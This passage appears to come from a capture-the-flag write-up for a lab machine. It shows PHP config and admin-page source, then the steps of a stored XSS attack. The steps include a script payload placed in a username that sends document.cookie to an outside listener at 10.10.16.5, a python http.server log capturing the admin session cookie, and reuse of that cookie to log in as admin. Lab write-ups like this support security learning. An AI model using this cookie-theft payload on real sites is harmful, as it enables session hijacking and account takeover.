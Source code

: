 ```
// Database configuration
$db_file = '/databases/cat.db';

// Connect to the database
try {
    $pdo = new PDO("sqlite:$db_file");
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Error: " . $e->getMessage());
}
?>
```
admin.php
```
<?php
session_start();

include 'config.php';

// Check if the user is logged in
if (!isset($_SESSION['username']) || $_SESSION['username'] !== 'axel') {
    header("Location: /join.php");
    exit();
}

// Fetch cat data from the database
$stmt = $pdo->prepare("SELECT * FROM cats");
$stmt->execute();
$cats = $stmt->fetchAll(PDO::FETCH_ASSOC);
?>

```

By checking the source code, I found there is XSS in the admin viewing page
The tips to exploit it:
```
1, registered user with the name
<script>document.location='http://10.10.16.5/?c='+document.cookie;</script>

2, open your python http.server

3, come to Contest, and send request in the contest with random data

4, get the cookie back and login as admin

python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [02/Feb/2025 11:16:15] "GET /?c=PHPSESSID=n8tjmpqrh47hpo4u74tdo5hcjs HTTP/1.1" 200 -
10.10.11.53 - - [02/Feb/2025 11:16:15] code 404, message File not found
10.10.11.53 - - [02/Feb/2025 11:16:15] "GET /favicon.ico HTTP/1.1" 404 -

If there is nothing happen, please reset the machine.
```
